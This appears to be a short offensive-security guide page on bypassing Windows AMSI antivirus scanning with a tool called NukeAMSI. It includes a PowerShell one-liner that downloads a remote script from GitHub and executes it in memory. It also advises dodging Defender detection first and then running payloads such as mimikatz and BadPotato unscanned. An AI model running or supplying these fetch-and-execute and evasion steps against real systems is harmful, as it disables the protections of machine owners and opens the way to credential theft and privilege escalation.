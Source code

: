 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Requirement

- Almost every techniques need `SeImpersonatePrivilege` on current user
- Unfortunately, most techniques is detected by modern AV like Windows Defender, so you should try some method from [Defense Evasion]() before running below scripts

## Methods

### NukeAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NukeAMSI.ps1](https://github.com/anonymous300502/Nuke-AMSI/blob/main/NukeAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/anonymous300502/Nuke-AMSI/refs/heads/main/NukeAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI

#### Usage

- Powershell script (.ps1): We can directly run it
- Native PE Bynary: We can embed it into a powershell script like how they embed `mimikatz.exe` into [Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
- .NET PE Binary: 
    - I have tested this with [Invoke-BadPotato.ps1](https://github.com/Zanitas404/Invoke-BadPotato/blob/main/Invoke-BadPotato.ps1) and other .NET binary, but I always get this error 
    - Thanks to [Vixx's repo](https://github.com/V-i-x-x/AMSI-BYPASS/tree/main), I have done some research and successful deal with this problem
    - Now we should run this [Invoke-ClrBypass.ps1]() before running our .NET payload, for more detail please refer [this](Payloads\Invoke-ClrBypass\README.md)
